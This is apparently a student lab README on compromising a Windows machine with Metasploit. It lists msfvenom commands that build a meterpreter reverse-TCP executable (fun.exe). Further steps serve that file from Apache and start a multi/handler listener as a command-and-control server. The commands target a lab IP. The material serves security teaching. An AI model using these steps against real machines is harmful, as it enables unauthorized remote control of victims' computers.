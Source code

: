 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig
## OUTPUT:

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/a396596a-a2bc-4226-8930-59fb09c045c1)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/76b10ac2-3aff-43da-8766-741b1b86b498)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/10a1151b-14f4-4483-9658-1ad063807e90)

Start apache server
sudo systemctl apache2 start

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/733de93e-f86b-420b-a790-d2543e4da0e0)

Check the status of apache2

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/49c4488c-cba5-4c70-ba39-4d2ffc3dc180)

Invoke msfconsole:

## OUTPUT:

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6ad1cb9c-8f5d-4338-ada3-0a585816a72a)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/cb6a3c0c-9089-4d26-bf8c-361f1d21844c)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/e89130b2-ed69-4b0c-9be1-dbf0b6c2b87f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://10.0.2.15/fun.exe
The file "fun.exe" downloads. 


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

